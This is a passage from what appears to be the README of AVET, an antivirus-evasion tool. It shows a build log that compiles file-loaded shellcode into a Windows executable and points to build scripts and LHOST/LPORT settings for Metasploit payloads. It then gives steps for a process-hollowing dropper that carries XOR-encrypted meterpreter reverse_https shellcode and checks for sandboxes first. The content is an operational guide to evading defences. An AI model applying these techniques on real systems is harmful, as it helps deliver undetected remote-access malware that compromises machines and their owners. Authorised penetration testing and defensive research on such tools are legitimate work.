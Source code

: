 ```
./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf
set_command_source no_data
set_command_exec no_command
set_payload_source static_from_file input/scenc_c.txt
set_decoder avet
set_key_source no_data
set_payload_info_source no_data
set_payload_execution_method exec_shellcode
enable_debug_print
$win32_compiler -o output/output.exe source/avet.c
strip output/output.exe
cleanup_techniques

Press enter to continue.

Building the output file...

Please stand by...

The output file should be placed in the output directory.

Bye...
```

How to use 
----------

Of course it is possible to run all commands step by step from command line. However, in the "build" folder you will find preconfigured build scripts for relevant use cases. 
The build scripts themselves are written so as they have to be called from within the avet directory:
```
root@kalidan:~/tools/avet# ./build/build_fopen_mtrprtrxor_revhttps_win64.sh
```

You can define default LHOST and LPORT values for metasploit payloads in the `/build/global_connect_config.sh` file, which are used if you don't redefine.


Usage examples
--------------

Generate a 32-bit process hollowing executable in two steps (as in build_hollowing_targetfromcmd_doubleenc_doubleev_revhttps_win32.sh):

First, generate the hollowing payload with AVET:

- generate meterpreter/reverse_https 32-bit shellcode
- the meterpreter shellcode will be XOR encrypted with a 5-byte preset key
- the shellcode will be compiled into the generated executable
- fopen and gethostbyname sandbox evasion environmental checks will be made before executing the shellcode
	
Second, build the "dropper" executable that delivers the first step payload via hollowing:
- statically compile the first step payload into the executable
- the payload will be XOR encrypted with a different 5-byte preset key
- again, fopen and gethostbyname sandbox evasion environmental checks will be made before hollowing
- the hollowing target PID will be delivered via command line argument on execution time
	